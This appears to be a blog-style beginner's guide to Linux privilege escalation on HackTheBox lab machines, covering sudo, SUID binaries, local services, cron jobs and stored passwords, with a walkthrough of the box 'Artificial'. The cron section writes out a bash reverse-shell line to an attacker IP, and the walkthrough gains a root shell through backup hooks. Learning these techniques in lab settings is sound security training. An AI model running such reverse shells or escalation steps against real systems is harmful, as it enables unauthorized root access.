









When I first started trying machine labs on HTB (HackTheBox), I struggled a lot with privilege escalation because I only had a very brief introduction to it without actually learning it. I was mainly focusing on AD (Active Directory) at the time, so it felt really foreign trying to get `root` on the available labs. The most I would do on Linux machines was run `linpeas` and quickly skim the output for low hanging fruit. If nothing obvious stood out, I would call it a day, look at the available walkthroughs and it felt like finding the solution on my own was impossible. On top of that, I wasn't familiar at all with Linux at the time which only led to more confusion. This led me to take a full break from the lab machines because it felt too difficult.

After finishing my AD studies and getting much more familiar with Linux, I decided to give the Linux machines another go on HTB. Over time, I noticed patterns for escalation paths and became more familiar with what to look for. It felt like the once scattered puzzle pieces were finally coming together. I started developing shortcuts for my methodology and added things that were missing. If given time, privilege escalation can be really fun and not as daunting as it may seem at first glance. I still have a lot more to learn, but below I'll share the most common ways I came across to escalate to `root` for __easy Linux machines__ on HTB with examples. Something to note is that a lot of machines will use a combination of these in order to reach `root` (as shown in the provided example). In this case, enumeration would be key to see how everything links together. The more you work on these machines, the more you will notice patterns and everything becomes more intuitive. 

Before that, I strongly recommend giving these resources a look if you ever feel stuck and want to improve: 
- https://www.youtube.com/watch?v=UOjUIm6qoFs
- https://book.hacktricks.wiki/en/linux-hardening/linux-privilege-escalation-checklist.html
- https://academy.hackthebox.com/module/details/51
- https://academy.hackthebox.com/module/details/77

---
### 0. Initial Enumeration
Before looking for privilege escalation, you should gather information about the system:
```
whoami
id
uname -a
hostname
```

Once you get a basic idea of the system, you should grasp a quick understanding of:
- What `sudo` permissions you have
- What scheduled tasks exist (Cron jobs usually run with elevated privileges)
- What SUID binaries are present (Can execute with root privileges)
- What services are running
- Where sensitive files exist (Usually config files are misconfigured or you have access to databases that have stored passwords)

Of course, `linpeas` checks most of this, but its important to do it manually especially if you're still learning the basics. I usually only run `linpeas` after I've quickly enumerated the system manually.

### 1. Sudo Misconfigurations
##### 1.1 What is it
- `sudo` lets a user run commands as another user (usually `root`). Sometimes, users are given `sudo` rights so they can perform certain tasks.
##### 1.2 Why it matters
- Running some binaries as `sudo` can allow a user to break out of that program into a `root` shell
##### 1.3 How to exploit
- Check allowed commands
```
sudo -l
```
- Use GTFOBins to abuse the binaries: https://gtfobins.github.io/
- See if you are able to get it to run custom commands
- Some of the active machines have some fun ways of exploiting this, I would recommend giving `CodePartTwo` a try

### 2. SUID Binaries
##### 2.1 What is it
- Allows a user to run a program as the owner of the file rather than the user launching it.
##### 2.2 Why it matters
- Some binaries (like find or vim) can allow you to break out from restricted environments and escalate privileges if they have the SUID bit. 
##### 2.3 How to exploit
- Check SUID
```
find / -perm -4000 -type f 2>/dev/null
```
- Note: Not everything that's outputted can be exploited, that's why you need to check for anything unusual. Check GTFOBins and CVEs for potential exploits
- Start with checking the low hanging fruits first (Maybe you see something from `/opt` instead of the usual location `/usr/bin`). I recommend trying out `editor` for this

### 3. Vulnerable Services
##### 3.1 What is it
- For this part, I'm specifically referring to network-facing services that are actively listening on a port (like mysql)
##### 3.2 Why it matters
- If a root-owned service is accessible, you can potentially escalate privileges by running arbitrary commands or gaining access to sensitive info  
##### 3.3 How to exploit
- The following command is used to check which services are running on which ports. Focus on checking stuff that's local only (127.0.0.1), these wouldn't have shown up on `nmap` scans at the start
```
ss -tulp
```
- Port forward these to your machine and check them for anything interesting (Version numbers, login pages, etc...)
	- If its something like a log in page, you know your next step is to find credentials on the machine with working credentials
	- If you see a version number, check to see if its vulnerable to any public exploits
- Use `nc` to interact with them quickly
	- Example: You see multiple ports open on 127.0.0.1 and suspect a vulnerable version of a service, `nc` would be a quick way of identifying what's running on the port, banner grabbing and version grabbing in order to pick off the low hanging fruits quickly. I recommend giving `soulmate` a try

### 4. Cron Jobs
##### 4.1 What is it
- Put simply, cron is a scheduler that runs tasks at regular intervals. 
##### 4.2 Why it matters
- If a `root` cron job executes a script that you can modify, you can change the script to something malicious like a reverse shell
##### 4.3 How to exploit
- Check cron jobs
```
ls -la /etc/cron.*
```
- Check for anything that can be modified by your current user or check anything that stands out. I recommend trying `nibbles` for this
- Example:
  ```
  # This is a bash script that runs hourly as root, but can be modified by anyone
  
  # Modify the file to make a simple reverse shell that you will catch on port 4444:
  bash -i >& /dev/tcp/10.10.14.17/4444 0>&1
  ```
  
### 5. Unsafe Password Storage
##### 5.1 What is it
- Passwords often get stored in unsafe places: history files, config files, backups, logs, databases
##### 5.2 Why it matters
- If a password is found, it can give you access to other accounts or services that were inaccessible otherwise
- It is usually used in conjunction with other methods to gain `root` privileges
##### 5.3 How to exploit
- Search for keywords or common locations for passwords to be insecurely stored
```
cat ~/.bash_history
find / -name "*.db" 2>/dev/null
find / -name "*.conf" 2>/dev/null
find / -name "*password*" 2>/dev/null
```
- There is a lot of places to check, the ones I gave as an example are only a few
- I find this step to be the most time consuming just because there can be a lot of potential places to look through depending on the machine, `linpeas` would help a lot with this
- Sometimes you need to just manually look through locations since using keywords in order to find passwords stored in files can be somewhat inconsistent (Think of the case were someone does `pwd=123` instead of `password=123`)
- Similar to when attacking AD environments where if you find a password you should spray it across the network to test for password reuse and accessible services, you need to test anywhere where there were credentials required such as SSH or web portals to see if you are now authorized to use anything that was previously restricted. I recommend trying `outbound` for this

### Side Notes
One of the reasons why I would recommend learning Linux before attempting to learn privilege escalation is because it will make everything more intuitive and will allow you to better understand how to link everything together. This in turn can give you a sense of direction and you have a better understanding of potential misconfigurations. For example, understanding the Linux FHS (Filesystem Hierarchy Standard) allows you to know that:
- `/opt` usually has some nice findings since its optional programs that usually add attack vectors and can be easily misconfigured
- `/tmp` typically has read/write perms for everyone, this is useful for running exploits
- `/var` can store databases with sensitive info

Lastly, sometimes the way you got your foothold could be a massive hint on where you can pick up breadcrumbs for getting privilege escalation. For example, lets say that you got a foothold after exploiting a vulnerability in a website. The website can have interesting configuration files with sensitive information like revealing `mysql` credentials that can get you credentials for another user.

---
### Example:
##### HTB - Artificial (Easy):
Artificial was running a self-hosted web user interface for managing and scheduling backups.


Simply port forwarding it with SSH allows us to interact with it from the attacker machine. The problem here is that it required a password to use. 
```
ssh -L 9898:localhost:9898 gael@<ip>
```


From there I decided to give it's related files a look to see if I could find credentials in configuration files for a quick win. Unfortunately, my user didn't have access to view the files of importance in`/opt/backrest`.



I then went to check the backup location for it where I did have access to read files. I found a username and a password hash that was base64 encoded which I had to decode then crack in order to get the password for it. 



Once I was logged in, the first thing I did was read the documentation for using it. I realized I could use hooks to run a script that could give me a reverse shell when I was adding a repo, I just needed to make sure the hook would run under any condition. https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet


Since backrest was running with `root` privileges, I would naturally be gaining a `root` shell from this method. Therefore, after running any action on the repo `hello` (in this case, I ran `Check Now`), the hook would run, giving me a reverse shell with root privileges.



### Conclusion
I would have loved to make this longer for better explanations and more examples, but I feel like it would have been left unread or would be overwhelming, so I tried to keep it as nice and simple as possible. I would hope this helps to at least give you a sense of direction when it comes to privilege escalation for Linux to where it feels like you're playing a game of hide and seek. On the bright side, it only gets harder with Windows :)

Probably going to make a full write up post later, but I've only been completing active boxes, so I need to give retired boxes a look. Feel free to DM me any questions, maybe, I think.
